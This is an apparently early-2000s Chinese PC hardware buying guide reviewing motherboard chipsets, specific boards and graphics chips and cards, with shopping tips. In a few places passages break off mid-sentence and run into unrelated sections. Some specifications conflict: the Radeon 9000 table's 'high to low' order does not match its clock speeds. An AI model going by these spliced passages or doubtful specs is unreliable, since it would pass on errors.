| 南北桥连接方式 | HyperTransport | HyperTransport | HyperTransport | VIA V-Link | VIA V-Link | MuTIOL | MuTIOL |
| 南桥芯片 | MCP | MCP-T | MCP | VT8235 | VT8233A | SiS 961 | SiS 961 |
| USB2.0 | 支持 | 支持 | 支持 | 支持 | 支持 | 支持 | 支持 |
| ATA133 | 支持 | 支持 | 支持 | 支持 | 支持 | 支持 | 支持 |
| 音效系统 | AC'97 | APU | APU | AC'97 | AC'97 | AC'97 | AC'97 |
| DuartNET | 不支持 | 支持 | 支持 | 不支持 | 不支持 | 不支持 | 不支持 |
| IEEE1394 | 不支持 | 支持 | 支持 | 不支持 | 支持 | 不支持 | 支持 |

从表中我们可以看出，nForce2的特性的确非常吸引人，并且由于推出了不含显示核心的版本，因此产品的成本也可以得到有效控制。同时nVIDIA也计划控制nForce的成本来增加竞争力，相信前景会更加乐观。

#### (二)产品

虽然芯片组的性能在很大程度上限定了主板的性能，但是众多的主板厂商都不甘寂寞地开发出自己独有的技术来增加主板的功能，比如 RAID、效果更出色的声音芯片、硬件故障侦测装置、超频跳线/工具等。比如升技主板的超频性能一向比较出色，附加功能也比较强大，因此升技主板深受超频爱好者的好评。华硕、技嘉等主板则比较注重稳定性，提供的软件也比较丰富，从 CPU 降温、系统报警到杀毒软件一应俱全。也有一些厂商的软件很有特色，如捷波的恢复精灵，可以给使用者带来很多方便。因此，根据自己的需要选择适合自己的主板是非常必要的。

下面介绍几款比较有特色的主板供读者参考：

### 1. 升技 BG7 (i845G 芯片组, 如图 12)


升技主板的特色就是超频性能好，因此该主板的设计为超频者考虑得更多。首先，电源插口位于主板的边缘而非一些主板的中央位置，这样既方便了电源的安装也避免了电源溢出的杂波对电脑内正常信号的影响。升技BG7主板的CPU超频部分采用了BIOS全软设定的方式，甚至连 i845G 没有官方支持的 DDR333 都可以在 BIOS 中设定，而不用使用硬件跳线。不过，这款主板同以前升技的主板相比，调节选项偏少。可能是厂商考虑到系统稳定性的缘故而做了一定的精简。随主板附送的扩充板上不仅提供了6声道中的后置和低音以及两个 USB2.0 接口，还提供了两个光纤接口。另外值得一提的是，虽然 i845G 芯片组的 ICH4 南桥集成了网卡功能，但是 BG7 的网卡功能却是通过 Realtek 的 RTL8100B 芯片实现的。

许多用户对集成网卡一向颇有微词，认为使用集成网卡时丢包、断网等现象明显高于使用外置网卡时的情况。而且驱动程序的安装有时也会出现问题。所以升技舍弃了集成网卡，转而使用 Realtek 这一老牌网卡芯片厂商的产品。

### 2. 捷波 J-845GDA(i845G 芯片组, 如图 13)


捷波主板最有特色的部分恐怕就是他的精灵系列软件了。相信恢复精灵、超频精灵等都给大家留下了比较深刻的印象。而在 i845E/G 的产品上，捷波又加入了冰芯精灵，这也是捷波开发的一款降温程序。相信捷波的精灵程序会越来越丰富，越来越有特色。这款J-845GDA的表现比较中规中矩，BIOS的设置比较全面，不但支持频率的线性调节，还支持CPU、AGP和内存电压调节。但是BIOS中没有给出明确的DDR333内存设置选项，取而代之的是一个DRAM Performance Booster，估计是捷波怕违背Intel的官方设定而做的一个小小的障眼法。另外，这款主板采用的蓝色PCB板和紫色内存插槽的设计，也是捷波主板的一个标志。

### 3. 技嘉GA-8IGX(845G芯片组，如图14)


技嘉的主流/高档主板通常采用蓝色PCB板。据说技嘉的蓝色PCB板通过了Intel的严格认证，是Intel免检的产品。技嘉的主板一向以稳定著称，这款GA-8IGX主板不但在北桥芯片上安装了散热片，还增加了一个非常漂亮的风扇来辅助散热。虽然技嘉以前的主板产品被认为过于保守，不鼓励超频，但是从这款GA-8IGX上看有了较大的改观。在BIOS选项中，超频的选项非常丰富，甚至还有一个动态分频的方法。即不管CPU工作在何种外频下，主板的PCI/AGP频率都可以工作在额定的33MHz/66MHz下。这个设计最大限度地避免了系统中其它设备对超频的限制，对于极限超频爱好者来说非常实用。另外，技嘉主板的双BIOS和Easy Tune4等传统项目依然保留，并且主板还附带了一个4个接口的USB2.0扩展卡。总体来说，技嘉的这款主板做得较为出色，既保留了自己稳重大气的本色，又适合超频玩家。虽然价格略微偏高，但的确物有所值。

### 4. 微星845PE MAX(845PE芯片组，如图15)

微星的产品起伏比较大，不同型号主板的表现往往判若两个公司的产品。微星的这款845PE采用了传统的红色PCB宽板设计，并且在北桥芯片上增加了散热片和风扇，以提高系统的稳定性。同技嘉的散热风扇相比，这个风扇显得有些不够美观。微星在845系列主板上的性能表现一向很好，这次的845PE MAX也继承了这一传统。此外，845PE Max还搭配了微星设计的Fuzzy Logic 4极速调校软件，用户可采用自动或手动的方式实时调整CPU频率，也可以调节AGP频率和电压，从而提高显卡性能。因此，这款主板比较适合追求性能的玩家。


### 5. 华硕A7V8X主板(KT400芯片组，如图16)


华硕的主板相信大家一定比较熟悉了，它的产品以质量过硬、性能出众而著称。这款A7V8X主板的功能也很丰富，它集成了Broadcom的BCM5702芯片，提供10/100/1000M的局域网连接能力，其中的千兆连接能力颇为引人注目。它还集成Promise的PDC20376芯片，支持两个符合串行ATA 1.0标准的SATA150接口，并具有IDE RAID磁盘阵列功能，同时还额外提供了一个ATA-133标准接口。由于Athlon XP的发热量比较大，因此A7V8X主板配备了华硕称为C.O.P(CPU Overheating Protection)的Athlon XP CPU过热自动保护功能，当监测到Athlon XP的温度超过一定限度后，会自动关机以防止出现危险。此外，它还具有语音报警功能，方便新手判断故障的所在。在BIOS的设置方面，A7V8X做得很好，有丰富的调节选项，甚至还包括了DDR内存电压的设置。在性能上，华硕A7V8X主板表现出华硕主板的一贯品质，在各项测试中都有不错的成绩。这款主板是未来Athlon XP上最好的搭档之一，推荐给追求稳定、高性能的玩家。

### 6. ECS精英L7VTA主板(KT400芯片组，如图17)


精英主板素来以价廉而著称。这款L7VTA主板采用了紫色的PCB板，不但北桥上有散热片，南桥芯片上也加装了一块小巧的散热片。它还集成了Promise的PDC20265R芯片，额外支持两个ATA100标准的IDE接口，并提供IDE RAID 磁盘阵列功能，这在一款廉价的主板上非常少见。在BIOS的设置方面，L7VTA主板做得还不够出色，调节选项偏少，CPU电压也只能使用默认值。因此，在超频性能上L7VTA主板不会很出色。总体来说，这款主板比较适合对超频没有什么特殊要求，又不愿意为了省钱和牺牲稳定性而购买一些小品牌的大众用户。

### 7. 捷波推出KT400主板——J-V400U

捷波J-V400U主板采用VIA KT400 (VT8368北桥+ VT8235南桥) 芯片组。它的技术标准为：支持200/266MHz系统前端总线；支持AMD Athlon/Athlon XP/Duron/Morgan全系列CPU；支持最高12GB 的DDR400 SDRAM；支持最新ATA 133的IDE传输规范，并且向下兼容；采用6×PCI、1×AGP、3×DDR DIMM；支持USB2.0接口和AGP 8X图形界面；支持V-LINK 8X 南北桥连接速率；内置CMI8738 6声道声卡。另外，这款J-V400U主板还加入了许多最新功能，如板载Serial-ATA、智能读卡器接口及IEEE 1394接口等，而且它还内置了PC Health系统监控程序以及DebugSound语音报警系统，并内建了10M/100M自适应网卡。据说这款J-V400U还具有“电源净化器”技术和最新研发的“分身精灵”多硬盘易用平台，非常超值。

### 8. 硕泰克SL-85DR3-R

硕泰克最近推出了一款采用银色PCB板的SL-85DR3-R主板，采用的是当今热门i845PE + ICH4芯片组，支持533MHz前端总线、DDR333、AGP 4X、USB2.0等主流技术。与市场上常见的I845PE主板不同的是，硕泰克独出心裁的为这款SL-85DR3-R集成了PDC20376芯片，使得SL-85DR3-R能够提供对Serial ATA传输规范的完美支持。众所周知，目前的并行ATA受频率干扰等因素的影响，传输速率的提升空间已相当有限，而Serial ATA的工作方式则很好地解决了稳定性问题，因此成了Intel力推的下一代硬盘传输标准。这意味着SL-85DR3-R拥有相当充裕的升级空间。

## （三）选购须知

### 1. 认清主板型号和芯片组编号

在媒体的广告和一些评测文章中出现的主板通常都是整个产品线中最强的那一款。在购买时，商家也很可能用最强的那一款产品的特性来吸引你，而后给你更换另外一款的较廉价产品。通常这些不同型号的主板会在声卡、显卡、网卡和RAID芯片的集成、功能上有所不同。因此认清主板的型号便显得非常重要。有些编号仅为一个应为字母或一个数字之差（比如A和A+），大家一定要看清楚。

一般的消费者对芯片组不大关心，认为同是采用某一芯片组，提供的基本性能应该相同。但是，除了SiS的芯片组采用单一芯片外，VIA和Intel的产品都是分南北桥的。而在采用相同北桥的情况下，南桥芯片可以在一定程度上由主板厂商自由更换。这种情况在较老的主板产品上曾出现，比如同是694X北桥，厂商用596B南桥代替686B南桥从而节省成本。然而采用596B南桥的主板就丧失了对DMA100的支持，也没有集成声卡和主板温度侦测等功能了。

### 2. 判断主板的用料及做工

由于主板上的所有电路都要在PCB上布线，所以一块较差的PCB最明显的问题就是电磁屏蔽性能不好，电路之间的信号有串扰，影响超频和系统的稳定性。

考察PCB，首先要看其外表是否有光泽，有通透感。如果看上去是乌突突的，则表示在电路屏蔽层方面做得不够理想。优秀的PCB板的边缘一定非常光滑，没有毛刺。其次，要看主板上电路的布线。优秀主板的布线井然有序，看上去有一种赏心悦目的感觉，而质量差的主板的布线则比较凌乱，有的甚至还有飞线（在PCB板上凌空后加上去的焊接线。本来走线都应该设计在PCB板里面的，可是如果设计错了就只能用飞线来修改）。优秀主板的焊点光滑且一致，均为机焊。而劣质主板的焊点大小不一，且有的颜色不均匀，很有可能为人工焊接的翻修产品。另外，从板型的设计、布局的合理性上来看，优秀的主板显然经过深思熟虑。比如在一些Athlon XP主板上，一些优秀主板就会在电容与CPU插座之间空出一段距离以供安装大型散热风扇之用。而劣质主板则不会考虑得那么周详，很可能造成散热器不容易安装或无法安装的情况。有的散热片长期挤压电容，也可能会发生电容爆裂的现象，从而造成主板损毁。在电容的使用上，优质主板通常使用那些容量大，顶部有叉子的防爆电容，且为了保证电流的纯净，电容的数量通常会比较多。而劣质主板则能省就省，只提供较少的电容数量，因此使用中的稳定性大大降低。

### 3. 检查BIOS里面的调节功能

有些主板的BIOS设置非常丰富，提供给用户的调节选项比较多，有利于系统整体性能的提升。而有些主板则在BIOS的设置上没有下太大功夫，或只考虑到系统的安全性而没有提供电压调节和CPU外频线性调节等功能。有的主板虽然提供了这些调节选项，但是可调范围很小，频率和电压的划分跨度非常大，这样的主板就不利于超频玩家充分压榨系统的性能。

另外，虽然845E/G系列主板在官方宣称中不支持DDR333，但是主板厂商都在这类主板中加入了对DDR333内存的支持。有的在BIOS中有明确的选项，有的对这一项并没有明确指出，而有的则需要拨动主板上的硬件跳线。而那些“严格遵守”Intel标准的厂商由于不支持DDR333，所以，落后很多。建议用户选购可以支持DDR333的845E/G系列产品。

### 4. 参考主板附带配件和软件

有些支持USB2.0设备的主板会随板附送USB扩展接口板，而一些有特殊功能的主板(如蓝牙)也会随板附送相关配件，在购买时一定要注意检查这些配件是否完备。另外，有些主板的附送软件也是其卖点之一，因此在购买这类产品时要记得检查软件光盘是否齐备，这也是辨别真伪和水货的部分依据(假货和水货是肯定无法捆绑正式版的商业软件的)。还有，通常情况下很多主板仅附送一根IDE连线，但将光驱和硬盘接在一根线上会影响系统的整体性能，因此向经销商再索要一根IDE连线也是非常必要的。

### 三、显卡篇

## （一）2002年下半年显示芯片市场概述

### 1. 你争我夺毫不相让，nVIDIA、ATi新品辈出

这几年nVIDIA的发展速度的确惊人，从GeForce2到GeForce4的更新换代，不但甩开了其他显示芯片厂商的苦苦追赶，也让用户感到有些应接不暇。2002年下半年，GeForce4系列已经完全替代GeForce3和GeForce2成为了市场的主流。我们也不得不佩服nVIDIA控制市场的能力。GeForce4上市伊始，就划分了详细的产品线，GeForce4 Ti系列主攻高端市场，GeForce4 MX系列抢占低端市场，双剑合璧，意图“一统江湖”。

GeForce4 MX(NV17)做为GeForce4家族的产品，其运行频率很高，超过了包括GeForce3 Ti500在内的以往所有产品。但由于GeForce4 MX的市场定位在中低端，因此其性能不可能太过分。于是nVIDIA就做了一个精简，将GeForce4 MX的渲染流水线减半(GeForce4 MX为两条，GeForce3 Ti为四条)，这点类似GeForce2 MX相对于GeForce2 Ti的情况。另外，GeForce4 MX不具备GeForce3的nFinite FX引擎，不能完全支持DirectX 8的所有特性，比如Pixel Shader。因此GeForce4 MX在名字上看似领先于GeForce3，其实性能是不如GeForce3的。不过做为GeForce2 Ti的替代品，GeForce4 MX并没有像GeForce2 MX一样在显存带宽上做过多的限制。GeForce4 MX具有128-Bit的DDR显存带宽，还引入了在GeForce3中采用的LightSpeed Memory Architecture(LMA)光速显存架构技术的改进版(LightSpeed Memory Architecture II)，可以有效地减轻显存带宽的负担，增加显存的工作效率，从而达到提升显卡整体性能的目的。

同GeForce2 MX系列一样，GeForce4 MX也进行了详细的产品划分，由高到低依次为GeForce4 MX 460、GeForce4 MX 440和GeForce4 MX 420(如图18、图19、图20)，主要的不同在于芯片和显存的工作频率以及显存的种类(详细信息请看表5)。

表5 GeForce4 MX系列显卡性能参数表

|  | GeForce4 MX 460 | GeForce4 MX 440 | GeForce4 MX 420 |
| :--- | :--- | :--- | :--- |
| 核心代号: | NV17 Pro | NV17 | NV17 S |
| 可搭配显存: | 64M/128M 3.6ns 128Bit DDR显存 | 64M 5ns 128Bit DDR显存 | 64M 5ns 128Bit SDRAM显存 |
| 核心/显存工作频率: | 300MHz/275MHz | 270MHz/200MHz | 250MHz/166MHz |
| 显存带宽: | 8.8GB/秒 | 6.4GB/秒 | 2.7GB/秒 |
| 显卡的附加功能: | 大多具备DVI/CRT双头显示和TV-OUT视频输出 | 一般具备DVI/CRT双头显示和TV-OUT视频输出 | 通常只提供TV-OUT视频输出 |整体性能。与 GeForce4 MX 一样，GeForce4 Ti 也引入了LightSpeed Memory Architecture II (LMA II) 光速显存架构Ⅱ技术，节省了显存带宽，提升了显卡的整体表现。

在产品具体型号的划分上，nVIDIA 也沿用了MX系列的方式。由高到低依次为GeForce4 Ti 4600、GeForce4 Ti 4400和GeForce4 Ti 4200，主要的不同点在于芯片以及显存的工作频率上(详细信息请看表6)。


由于 GeForce4 Ti 系列对显存的速度要求较高，因此它们普遍配备了采用了MicroBGA封装的新型显存(传统 TSOP 封装的显存已很难满足要求)，速度最快可以达到 2.8 纳秒。此种封装形式的缓存在成本上相对于传统的 TSOP 封装显存来说并没有增加，因此在 GeForce4 Ti 系列和 GeForce4 MX 460 等对显存频率要求较高的显卡上都采用了这种显存。当然，也有一些显卡厂商为降低成本采用低频率显存芯片来代替新型显存芯片，大家购买的时候一定要分辨一下。


ATi在狙击GeForce3系列的战役中凭借Radeon 8500/7500取得了初步成功，夺取了一片属于自己的市场。面对来势汹汹的GeForce4系列，仅凭借Radeon 8500/7500系列是不够的；于是ATi拿出了自己的新一代产品—— Radeon 9000/9700。


ATi的产品命名方式相对于nVIDIA的“泾渭分明”来说稍显混乱。从名字上看，Radeon 9000的性能和市场定位应该高于Radeon 8500，但实际情况并不是这样。Radeon 9000 是替代 Radeon 7500用来主打低端市场的产品。真正跟GeForce4 Ti决战显卡之巅的还是 Radeon 9700。

nVIDIA 在推出 GeForce4 MX 系列的时候并不支持 AGP8X，而“首款支持 AGP8X 的显卡”被 SiS Xabre 抢去以后，nVIDIA 似乎也对此有所反应，相继推出了 MX440 和 MX420 的支持 AGP8X 的版本。对于 MX460 的 AGP8X 版本，nVIDIA 打算用 GeForce4 MX440SE取代(也许是对目前MX460的市场反应有些不满)，GeForce4 MX440SE的核心／显存频率为 275MHz/250MHz。

GeForce4 Ti 的代号是 NV25，它主要面向高端市场，是目前 nVIDIA 系列中最强的显示芯片。它仍然采用 0.15 微米工艺生产，但选择了新的 PBGA 封装，运行频率达到了 300MHz，并配合 325MHz DDR 显存，可以提供 10.4Gbit/s 的显存带宽。从架构上来说，GeForce4 Ti 相对于 GeForce3 Ti 并没有质的变化，它仍然只有四条流水线，但它具有 nfiniteFX II 引擎(GeForce3 nFiniteFX引擎的改进板)和改进的像素处理单元，这些改进全面提高了 GeForce4 Ti 的整体性能。

做为低端市场的更新产品，Radeon 9000沿用了 Radeon 8500的设计思路，并做了一定的精简。它的最高核心频率为275MHz，也具备4条渲染流水线，但每条渲染流水线只具备了 1 个材质贴图单元(TMU， Radeon 8500 为两个)，因此在多材质应用上，Radeon 9000比Radeon 8500性能有所降低。另外， Radeon 9000 还改进了几何处理单元，并使用了 128bit DDR 显存(最高工作频率为275MHz)，可以提供 8.8Gbps 的显存带宽。做为ATi的产品，HYPER-Z技术是必不可少的。在Radeon 9000中，经改进的HYPER-Z Ⅱ技术依然可以有效地提升显存带宽的利用率。

在ATi一向的优势项目——画质中，Radeon 9000继承了Radeon 8500的SmoothVision技术，可以实现高品质的全屏反锯齿效果以及各项异性过滤。这可以使Radeon 9000在运行3D游戏时的画面更加平滑和逼真。另外在视频播放能力上，Radeon 9000也凭借着VideoImmersion Ⅱ技术继续保持着画质上的优势，而且它新加入的FullStream技术还特别对RealVideo格式的视频流提供了优化，可以减少画面颗粒感，获得更加柔和的画质。

熟悉Radeon All-In-Wonder系列产品的用户一定对Rage Theater芯片非常熟悉，以前的Radeon 8500/750正是凭借这块芯片实现了众多功能。而在Radeon 9000显卡上，将见不到Rage Theater和其余的一些RAMDAC芯片，因为Radeon 9000的内部已经集成了这些功能。在Hydravision多显示器技术的配合下，可以很方便地实现CRT/DVI双显示输出及电视输出等功能。由于芯片的集成度更高，Radeon 9000显卡成品的价格也会相对降低，这对于广大用户来说无疑是一件好事。同时，由于GeForce4 MX系列还需要通过一些外部芯片来实现这些功能，因此Radeon 9000相对于GeForce4 MX的价格优势也更明显。

与nVIDIA一样，ATi也对Radeon 9000做了一个产品线的划分，由高到低分别为Radeon 9000 LE、Radeon 9000 Pro和Radeon 9000。这三款型号的具体差别请参见表7。

表7 Radeon 9000系列产品

| 核心名称 | Radeon 9000 LE | Radeon 9000 Pro | Radeon 9000 |
| :--- | :--- | :--- | :--- |
| 核心频率 | 250 MHz | 275 MHz | 300 MHz |
| 显存频率 | 200 MHz (DDR) | 275 MHz (DDR) | 300 MHz (DDR) |

由于ATi对下游厂商的控制并不像nVIDIA那样严格，因此Radeon 9000的成品显卡也可能会有不同于上述三款型号的版本，这就需要大家在购买时仔细鉴别一下了。

如果说Radeon 9000是在沿用Radeon 8500的技术的话，那Radeon 9700则完全体现了ATi研发人员的实力。Radeon 9700在硬件特性上完全超越了GeForce4 Ti，在nVIDIA的NV30上市之前，一举夺得性能之王的桂冠，它们之间的详细特征比较参见表8。

另外，Radeon 9700也按照芯片和显存频率的不同对产品线进行了划分，分为顶级Radeon 9700 Pro和性能稍低的Radeon 9700。

Radeon 9700的市场表现也非常出色，某些品牌的Radeon 9700 Pro产品的售价已经低于GeForce4 Ti 4600。不过高端产品相对于大众来说仍显遥远，而一些不能够参与到nVIDIA和ATi的竞争中来的厂商也面对大众市场推出了他们新一代产品。

## 2.重整旗鼓主打低端，Trident、SiS身影重现

Trident和SiS都是老牌的图形芯片厂商，Trident红极2D图形时代，而SiS则一直在低端市场上口碑甚嘉。但是由于新产品的3D性能相对较低，Trident和SiS都曾经一度陷入低谷，已经很长时间没有推出新产品了。

Trident在3D图形芯片市场上一直比较失意，从9750、9850到9880，Trident一直在夹缝中生存。后来由于显示芯片的性能不济，Trident还一度与VIA合作开发过整合图形芯片组，MVP4的集成显示芯片就是9880。不过由于VIA并购S3，有了自己的图形芯片设计团队，因此我们甚至担心Trident是否还有能力继续研发下一代图形芯片。不过令人高兴的是，在沉寂多年后，Trident仍然没有倒下，他凭借Blade XP显示芯片重新跑回市场。虽然由于上市时间较晚，Blade XP没有取得预期的市场份额，但是我们又看到了这一老牌图形芯片厂商的复苏。Trident的研发一直在继续，Blade XP4便是其下一代产品。从设计上看，Blade XP4非常超前，采用了 0.13 微米工艺。而且从其测试成绩上来看同 Radeon 9000 的成绩不分伯仲。但是在市场推广上，Trident似乎有一些问题 ——采用 Blade XP4 的显卡在市场上几乎找不到。如果能妥善解决好量产和市场推广的问题，相信Trident会带给我们一个惊喜。

作为图形芯片界的“中国芯”，SiS的产品一向很受众多低端用户的欢迎，这点从当年的SiS6326上就可以看出来。但是由于SiS6326的下一代产品SiS300在驱动程序以及兼容性上出了一些问题，因此市场反应非常差，SiS也几乎丧失了非整合图形芯片的市场份额。但是在人们就要忘记SiS的时候，代号为SiS 330的Xabre出世了。Xabre让我们兴奋的原因有以下几点：首先，他不再以一块低端显卡的形象出现，而是像nVIDIA和ATi一样划分了详细的产品线。从高端到低端依次为Xabre600、Xabre400、Xabre200和Xabre80，Xabre产品线详情请参见表9。

表9 Xabre产品线

| 产品型号 | Xabre80 | Xabre200 | Xabre400 | Xabre600 |
| :--- | :--- | :--- | :--- | :--- |
| 核心频率 | 183Mhz | 200Mhz | 250Mhz | 300Mhz |
| 显存频率 | 200MHz | 400MHz | 500MHz | 600MHz |
| 接口界面 | AGP4X | AGP8X | AGP8X | AGP8X |
| 显存带宽 | 2.7GB/s | 6.4GB/s | 8GB/s | 9.6GB/s |
| 视频功能 | 可搭配 SiS301 | 可搭配 SiS301 | 可搭配 SiS301 | 可搭配 SiS301 |
| Pixel Shader | 硬件实现 | 硬件实现 | 硬件实现 | 硬件实现 |
| Vertex Shader | 软件模拟 | 软件模拟 | 软件模拟 | 软件模拟 |

从高端的Xabre400和Xabre600的硬件性能看，Xabre完全有能力同GeForce4 MX和Radeon 9000一较短长。其次，在DX8.1的支持上，Xabre也做的非常出色，Xabre全线产品均支持DX8.1的全部特效。由于Radeon 7500、GeForce4 MX等产品均不支持DX8.1中的Pixel Shader技术，因此在同这些产品的竞争中Xabre无疑占据了先机。另外，Xabre还支持AGP8X接口，是世界上第一款支持AGP8X接口的显卡。虽然Xabre等级的显卡支持AGP8X对实际的性能没有什么提升，但是这种前瞻性的设计还是能起到鼓舞人心的作用，毕竟将来的DX9.0和显卡产品都将支持AGP8X。最后，SiS产品的一个传统优势就是价格。Xabre400上市伊始仅600多元的价格对广大电脑玩家来说还是很有吸引力。但是Xabre与GeForce4 MX等成熟产品相比，仍然存在较多问题。例如，在DVD回放等SiS的传统优势项目上，Xabre表现得并不出色，同GeForce4 MX、Radeon 7500等在画质上有不小的差距。并且由于驱动方面的原因，在多种应用下的表现不够稳定。并且SiS的传统弱项OpenGL在Xabre身上也没有得到很好的改善，在Quake III等需要OpenGL性能的游戏中，Xabre400与GeForce4 MX 460相比差距不小。看来，要做为一款能被大众所接受的产品，Xabre还有一段相当长的路要走。

## 3. 默默无闻苦心钻研，Matrox一鸣惊人

Matrox的大名相信广大爱好者一定非常熟悉，虽然多年没有新架构的产品出现，但是Matrox凭借G400核心开发出的一些后续产品还是占领了一些有特殊需要的市场。在3D技术上落后以后，我们曾认为Matrox将会守着自己的先进2D技术和一些非主流技术(如G550中的Head Casting技术)靠专业市场过活，但是Matrox这次带来的Parhelia(幻日)却着实让我们眼前一亮(如图21、图22)。


Parhelia是世界上第一款512bit的GPU，因此Parhelia也被Matrox贯以Parhelia-512的名字。在制造工艺上Parhelia仍然采用0.15微米工艺，但是晶体管数目达到了8000万。在显存接口上，Parhelia采用了256bit DDR显存，目前也只有ATI的Radeon 9700采用了相同规格的显存。Parhelia采用了四条渲染管线，但每条渲染管线支持4重纹理渲染，是GeForce4 Ti的两倍。在运行多纹理渲染的程序时，Parhelia的优势将会发挥出来。Parhelia的像素着色引擎也是非常强大的，像素着色引擎总数达到了36个，其每条像素管道具有5个像素着色阶段，而GeForce4 Ti则分别为16个和2个。Parhelia还具有众多新特性，其中最让人惊讶的就是16X片断反锯齿功能。以往的图形芯片在处理4X全屏抗锯齿时带来的性能损失就达到50%以上，从而失去了实用价值，而Parhelia的16X片断反锯齿功能却只会给性能带来20~30%的损失(16X片断抗锯齿环境也几乎达到了人眼要求的极致)。16X片断抗锯齿不仅改善了图形效果，连细小的字符都能够锐利化。由此可见，Parhelia在3D画质上的进步非常明显。同时，继承G450/550的衣钵，Parhelia还提供多种双头显示模式：Multi-Display(多屏显示)、Zoom(局部放大)、Clone(克隆)和DVDMax(DVD视频全面播放)，如图23所示。


为了营造更为真实的画面效果，Parhelia还可以使用专门的第三个RAMDAC以支持宽阔的长方形Windows桌面显示，使输出信号横跨三台显示屏，最高分辨率可达3840 x 1024@32bpp。这个功能对一些图形设计者来说非常实用，它可以使图形设计者对局部进行更清晰的设计而不必频繁切换屏幕。另外，此功能还可以运行在3D游戏模式下，不过我们认为这个功能在3D游戏模式下的实际用处不大。在图像显示上，Parhelia还提供了能使颜色更艳丽的10Bit/10亿色彩技术，它可以使我们看到的图像色彩更丰富，各个颜色之间的过度更平滑更柔和。在文字显示上，Parhelia还提供了硬件消除文字锯齿功能，这有点类似于Windows中的“平滑屏幕字体边缘”。经过消除锯齿的文字看上去更清晰、锐利，能够减轻文字编辑人员视觉的疲劳度。在DVD回放方面，Parhelia还提供了类似于DVD视频转换器的功能，可以让一台显示器用于工作，而视频输出到电视后全屏播放，工作娱乐互不干扰。由此可以看出，Parhelia继承了Matrox以前产品出色的2D显示效果并在此基础上发扬光大，让显示芯片的2D显示效果达到了一个前所未有的高度。而在3D显示上也有所创新，可以满足一些对3D画质要求较高的用户。不过Parhelia的弱点也比较明显，异常高昂的价格和相对于GeForce4 Ti和Radeon 9700的3D速度上的差距都是阻碍Parhelia占领市场的因素。而且国内市场上Matrox的销售渠道远没有nVIDIA和ATi好。如果Matrox不放下高贵的架子，即使Parhelia拥有先进的性能，也很难在中国市场上取得好成绩。

## （二）主要显卡品牌及产品推荐

由于加入到ATi阵营的显卡厂商越来越多，分量也越来越重，并且很多名气较小的厂商均得到了ATi的技术支持，因此ATi的产品与nVIDIA相比差别不大，而且价格更便宜。而在其他产品中，除了Xabre在零售柜台上有所亮相外，就连大名鼎鼎的幻日都难觅芳踪。

过去，ATi的产品在性能上输于nVIDIA的同级产品，但是在功能上却大大超出，例如AIW Radeon。不过之后nVIDIA也开发出属于自己的AIW产品——nVIDIA Personal Cinema。虽然与ATi的产品相比，nVIDIA的Personal Cinema仍显得不够成熟，但是画质上的提高和产品功能的增强，使nVIDIA被人们长期诟病的“傻快”的弊病在一定程度上得到了改善。ATi过去的产品相对于nVIDIA的产品来说产品线不够丰富，性能不够强大，但是随着Radeon 9700的问世，不管是从理论参数还是实际性能上，ATi都打了个成功的翻身仗。在产品线上，ATi也针对性地进行了扩充，打造出一条类似于nVIDIA的产品线，通过一个驱动包对所有产品提供驱动支持。所以，在目前的显卡产品中，ATi和nVIDIA不再有明显的弱点和长处，因此显卡厂商的作用在一定程度上被强化了，同芯片显卡的差距更多地体现在显卡厂商的市场定位和设计态度上了。

下面给大家推荐几款市场主流显卡产品。

- 1. 丽台 WinFast A180 DDR TH(GeForce4 MX 440-8X，如图24)


丽台在显卡的电路设计和相关软件的设计上一向有其独到之处，因此丽台的多款显卡都显得个性十## 七彩虹 镭风9000（Radeon 9000，如图26）

七彩虹相对于丽台、艾尔莎等老牌厂商来说进入显卡市场较晚，但是它凭借出色的产品质量迅速在市场上闯出了名号。

镭风9000采用ATi Radeon 9000显示核心，运行频率为250MHz，PCB板的正反面各采用了4颗TSOP封装的4.0纳秒现代（Hynix）DDR显存，容量共计64MB，运行于200MHz。不知什么原因，镭风9000并没有采用七彩虹招牌性的红色PCB板。

镭风9000采用公板设计，带有DVI、D-Sub、TV-Out三种接口，支持完备的双头显示功能。由于出色的设计，镭风9000的默认性能和超频性能都不错，只是价格偏高。不过对于追求高品质的玩家来说，镭风9000非常适合。

## 技嘉 MAYA GV-R9000 Pro（Radeon 9000 Pro，如图27）

MAYA GV-R9000 Pro采用了ATi Radeon 9000 Pro显示核心，其运行频率为275MHz，显示核心上配备了银色的散热片和风扇，黑白分明的GigaByte标志显得格外精致。红色PCB板的正反面各采用了4颗TSOP封装的3.6纳秒现代（Hynix）DDR显存，共64MB，运行在275MHz。在输出接口上，GV-R9000 Pro具有D-Sub、DVI以及TV-Out显示输出接口，同样可完整支持各种双头显示模式。在捆绑软件方面，技嘉附送了Heavy Metal F.A.K.K.2、4X4 EVO and Oni游戏光碟各一张，同时还赠送正版PowerDVD XP安装光盘。

整体来说，技嘉 MAYA GV-R9000 Pro在显卡用料、驱动设计、附送软件等方面均做得非常出色。这款显卡适合对性能、超频和功能均有较高要求的玩家。

## ATi原厂 Radeon 9700 Pro 显卡（Radeon 9700 Pro，如图28）

Radeon 9700 Pro显卡的核心频率为325MHz，在封装形式上不再采用以往的BGA封装，而是使用了在CPU上常使用的FC-PGA封装。由于仍然使用0.15微米工艺生产，因此它的核心面积也显得比较大（如图29）。Radeon 9700 Pro显卡采用了三星的2.8纳秒DDR显存，8颗显存构成256bit的显存位宽，容量共计128MB，工作频率为310MHz。为了保证工作的稳定性，Radeon 9700 Pro显卡特别提供了一个4针的电源接头，如果不接它的话，显卡将不能正常工作，在开机时会有相应的提示（这不禁让我们想起了Voodoo5）。另外，该显卡在输出接口方面提供了D-Sub、DVI、TV-out三种接口，可以实现多种双头输出模式。

作为目前最顶级的一款图形芯片的原厂卡，性能和品质无需多说。想拥有它的玩家准备好银子就可以了……不过目前有消息说ATi为了专心显示芯片的研发工作，ATi的显卡成品将交给下游厂商来做，而ATi的原厂卡也将从大陆市场上消失。如果真是这样，ATi阵营中最有分量的产品大陆玩家将无福消受了。不过ATi也表示会提供一定的OEM产品给一些下游厂商，也就是说我们还有可能见到打着别的品牌旗号的ATi原厂卡。

## 旌宇 钛龙擒雷者Ti4200 64MB版本（GeForce4 Ti 4200，如图30）

旌宇进入显卡市场较晚，初期的产品也多面向低端，因此留给人们的印象不深。但是随着nVIDIA新款芯片的发布，旌宇也相继推出了几款从包装、外形到性能都非常酷的产品，于是旌宇的名字也开始和一些老牌显卡厂商并列起来。

